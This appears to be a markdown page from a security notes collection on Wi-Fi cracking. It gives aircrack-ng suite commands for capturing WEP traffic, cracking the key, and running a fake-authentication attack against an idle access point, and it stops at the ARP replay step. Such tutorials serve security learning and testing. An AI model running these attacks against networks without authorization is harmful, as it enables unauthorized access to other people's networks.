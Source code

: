 ```yaml
---
description: breaking wep, wpa, wpa2 ectc.
---
```


# Wifi Cracking

### wep hacking

#### Busy wep Networks:

> Note: this methods works on a busy network where the  "#Data" column value increases at a very fast rate.

1. we have to capture a large number of packets for this to work, using the airodump-ng utility.

```bash
airodump-ng --bssid 98:A9:42:27:A2:CA --channel 2 --write wep_capture wlan0mon
```

2. we then use the aircrack-ng utility to crack the password using the captured .cap file.

```bash
aircrack wep_capture.cap
```

3. key found in the `KEY FOUND! [22:22:22:22:22]` remove the columns, then use the password to connect to the wep network.

#### Idle wep Networks:

> In a network thats not busy: you can force the AP to generate new packets new IVs.

**Solution:** Associate with the AP before launching the attack.

1. run a scan with airodump-ng utility.

```
airodump-ng --bssid 98:A9:42:27:A2:CA --channel 2 --write arp_replay wlan0mon
```

2. run the aireplay-ng utility to establish "an Association" with the target network. `--fakeauth 0` denotes running a fake authentication attack once, `-c` mac addr of the target AP, `-h` mac addr of our wlan0mon adapter and the name of the adapter.

```
aireplay-ng --fakeauth 0 -a 98:A9:42:27:A2:CA -h 11:22:33:44:55:66 wlan0mon
```

3. forcing the AP to generate new IVs (ARP Request Replay).

